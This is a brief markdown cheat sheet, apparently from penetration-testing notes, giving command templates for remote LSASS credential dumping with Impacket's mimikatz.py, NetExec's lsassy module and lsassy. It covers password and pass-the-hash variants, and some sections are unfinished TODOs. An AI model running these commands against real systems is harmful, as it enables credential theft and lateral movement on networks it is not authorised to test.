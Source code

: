# Offensive Tools

## Impacket

```
$ mimikatz.py [<domain>/]<username>:<password>@<IP>

$ mimikatz.py [<domain>/]<username>@<IP> -hashes :<nt_hash>
```

## NetExec

TODO: Fill this info

```
$ netexec smb <IP> -u "<username>" -p "<password>" [-d <domain> | --local-auth] -M lsassy

$ netexec smb <IP> -u "<username>" -H "<nt_hash>" [-d <domain> | --local-auth] -M lsassy
```

## Lsassy

TODO: Fill this info

```
$ lsassy [-d <domain>] -u <username> -p <passwords> ip_targets.txt

$ lsassy [-d <domain>] -u <username> -H [<lm_hash>:]<nt_hash> ip_targets.txt
```

---
## References

- [Lsassy](https://github.com/Hackndo/lsassy)